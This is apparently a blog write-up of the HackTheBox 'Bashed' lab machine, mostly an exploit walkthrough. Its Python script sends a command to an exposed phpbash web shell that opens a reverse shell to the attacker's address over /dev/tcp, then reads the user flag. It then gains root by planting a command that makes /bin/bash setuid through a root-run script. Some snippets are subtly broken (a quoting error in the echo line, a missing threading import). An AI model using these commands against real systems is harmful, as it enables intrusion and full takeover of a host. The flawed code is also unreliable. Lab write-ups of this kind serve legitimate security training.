```yaml
---
title: Bashed Machine HackTheBox
date: 2022-11-11 00:22:25 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Description 

This machine will be pwned with a simple script, and an easy Priv Escalation.

>So lets run the following script, which will get us into the machine and report us the flag
{: .prompt-tip}

```python
#!/usr/bin/python3

from pwn import *
import signal, requests, time, sys, os

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+Ctrl
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 2:
    print("Modo de uso: %s + <ip-address>" % sys.argv[0])
    sys.exit(1)

#Declaracion de variables globales

ip_address = sys.argv[1]
main_url = "http://%s/dev/phpbash.min.php" % ip_address
header = {"Content-Type": "application/x-www-form-urlencoded"}
lport = 7007

def getAccess():

    data_post = {
        'cmd' : 'cd /var/www/html/dev; bash -c "bash -i >&/dev/tcp/<YOUR____IP>/7007 0>&1"'
      }

    r = requests.post(main_url, data=data_post, headers=header)
    
    return r

if __name__ == '__main__':

    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.sendline("cd /home/arrexel")
    time.sleep(2)
    shell.sendline("cat user.txt")
    shell.interactive()
```
We can run the script with the following command:

```bash
python3 file_name.py target_ip
```
>Now we can submit user flag
{: .prompt-info}

Now, all we gotta do is:

```bash

cd /script
echo "import os os.system("chmod u+s /bin/bash")" > test.py
```
But why?

Well, in /scripts we can see 2 files: test.txt and test.py, from where the text.py text is moved written to test.py, so we can make /bin/bash a SUID.
If we ls -l, we can see test.txt is owned by root, se we can assum that anything inside test.py will also be run as root.

If we now wait 1 min, we can run:
```bash
/bin/bash -p
```
>And now we are able to cd into /root and submit the root flag!
{: .prompt-danger}
